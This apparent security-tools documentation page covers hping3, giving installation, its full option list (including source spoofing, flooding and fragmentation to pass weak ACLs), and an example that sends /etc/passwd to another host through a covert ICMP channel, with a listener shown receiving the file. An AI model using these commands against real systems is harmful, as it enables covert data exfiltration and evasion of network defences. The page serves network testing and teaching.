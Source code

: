 ```yaml
---
title : "Hping3"
# pre : ' '
description : "Send (almost) arbitrary TCP/IP packets to network hosts."
date : 2021-05-12T09:32:22+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Hping3

Send (almost) arbitrary TCP/IP packets to network hosts.

hping is a command-line oriented TCP/IP packet assembler/analyzer. The interface is inspired to the ping(8) unix command, but hping isn't only able to send ICMP echo requests. It supports TCP, UDP, ICMP and RAW-IP protocols, has a traceroute mode, the ability to send files between a covered channel, and many other features.

## Installation

```plain
sudo apt install hping3
```

## Usage

```plain
hping3 host [options]
```

## Flags

```plain
  -h  --help      show this help
  -v  --version   show version
  -c  --count     packet count
  -i  --interval  wait (uX for X microseconds, for example -i u1000)
      --fast      alias for -i u10000 (10 packets for second)
      --faster    alias for -i u1000 (100 packets for second)
      --flood     sent packets as fast as possible. Don't show replies.
  -n  --numeric   numeric output
  -q  --quiet     quiet
  -I  --interface interface name (otherwise default routing interface)
  -V  --verbose   verbose mode
  -D  --debug     debugging info
  -z  --bind      bind ctrl+z to ttl           (default to dst port)
  -Z  --unbind    unbind ctrl+z
      --beep      beep for every matching packet received
Mode
  default mode     TCP
  -0  --rawip      RAW IP mode
  -1  --icmp       ICMP mode
  -2  --udp        UDP mode
  -8  --scan       SCAN mode.
                   Example: hping --scan 1-30,70-90 -S www.target.host
  -9  --listen     listen mode
IP
  -a  --spoof      spoof source address
  --rand-dest      random destionation address mode. see the man.
  --rand-source    random source address mode. see the man.
  -t  --ttl        ttl (default 64)
  -N  --id         id (default random)
  -W  --winid      use win* id byte ordering
  -r  --rel        relativize id field          (to estimate host traffic)
  -f  --frag       split packets in more frag.  (may pass weak acl)
  -x  --morefrag   set more fragments flag
  -y  --dontfrag   set don't fragment flag
  -g  --fragoff    set the fragment offset
  -m  --mtu        set virtual mtu, implies --frag if packet size > mtu
  -o  --tos        type of service (default 0x00), try --tos help
  -G  --rroute     includes RECORD_ROUTE option and display the route buffer
  --lsrr           loose source routing and record route
  --ssrr           strict source routing and record route
  -H  --ipproto    set the IP protocol field, only in RAW IP mode
ICMP
  -C  --icmptype   icmp type (default echo request)
  -K  --icmpcode   icmp code (default 0)
      --force-icmp send all icmp types (default send only supported types)
      --icmp-gw    set gateway address for ICMP redirect (default 0.0.0.0)
      --icmp-ts    Alias for --icmp --icmptype 13 (ICMP timestamp)
      --icmp-addr  Alias for --icmp --icmptype 17 (ICMP address subnet mask)
      --icmp-help  display help for others icmp options
UDP/TCP
  -s  --baseport   base source port             (default random)
  -p  --destport   [+][+]<port> destination port(default 0) ctrl+z inc/dec
  -k  --keep       keep still source port
  -w  --win        winsize (default 64)
  -O  --tcpoff     set fake tcp data offset     (instead of tcphdrlen / 4)
  -Q  --seqnum     shows only tcp sequence number
  -b  --badcksum   (try to) send packets with a bad IP checksum
                   many systems will fix the IP checksum sending the packet
                   so you'll get bad UDP/TCP checksum instead.
  -M  --setseq     set TCP sequence number
  -L  --setack     set TCP ack
  -F  --fin        set FIN flag
  -S  --syn        set SYN flag
  -R  --rst        set RST flag
  -P  --push       set PUSH flag
  -A  --ack        set ACK flag
  -U  --urg        set URG flag
  -X  --xmas       set X unused flag (0x40)
  -Y  --ymas       set Y unused flag (0x80)
  --tcpexitcode    use last tcp->th_flags as exit code
  --tcp-mss        enable the TCP MSS option with the given value
  --tcp-timestamp  enable the TCP timestamp option to guess the HZ/uptime
Common
  -d  --data       data size                    (default is 0)
  -E  --file       data from file
  -e  --sign       add 'signature'
  -j  --dump       dump packets in hex
  -J  --print      dump printable characters
  -B  --safe       enable 'safe' protocol
  -u  --end        tell you when --file reached EOF and prevent rewind
  -T  --traceroute traceroute mode              (implies --bind and --ttl 1)
  --tr-stop        Exit when receive the first not ICMP in traceroute mode
  --tr-keep-ttl    Keep the source TTL fixed, useful to monitor just one hop
  --tr-no-rtt      Don't calculate/show RTT information in traceroute mode
ARS packet description (new, unstable)
  --apd-send       Send the packet described with APD (see docs/APD.txt)
```

## Examples

### Send file via ICMP (ping)

```sudo hping3 -I [INTERFACE] [TARGET-IP] --[PROTOCOL] -d 100 --sign [SECRET] --file [FILE]```

```plain
$ sudo hping3 -I eth0 10.10.20.106 --icmp -d 100 --sign secret --file /etc/passwd
HPING 10.10.20.106 (lo 10.10.20.106): icmp mode set, 28 headers + 100 data bytes
[main] memlockall(): Success
Warning: can't disable memory paging!
```

Listen on target machine.

```plain
$ sudo hping3 -I wlp4s0 --listen secret --icmp
hping3 listen mode
[main] memlockall(): Success
Warning: can't disable memory paging!
20:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
saned:x:119:126::20:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
saned:x:119:126::/var/lib/saned:/usr/sbin/nologin
dnsmasq:x:120:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologi/var/lib/saned:/usr/sbin/nologin
dnsmasq:x:120:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
tcpdump:x:121:128::/nonexistent:/usr/sbin/nologin
uuidd:x:122:129::/run/uuidd:/usr/sbin/nolon
tcpdump:x:121:128::/nonexistent:/usr/sbin/nologin
uuidd:x:122:129::/run/uuidd:/usr/sbin/nologin
---  hping statistic ---
0 packets transmitted, 0 packets received, 0% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
```

## URL List

- [Tools.kali.org - hping3](https://tools.kali.org/information-gathering/hping3)
- [Linux.die.net - hping3](https://linux.die.net/man/8/hping3)
- [iphelix.medium.com - Hping tips and tricks](https://iphelix.medium.com/hping-tips-and-tricks-85698751179f)

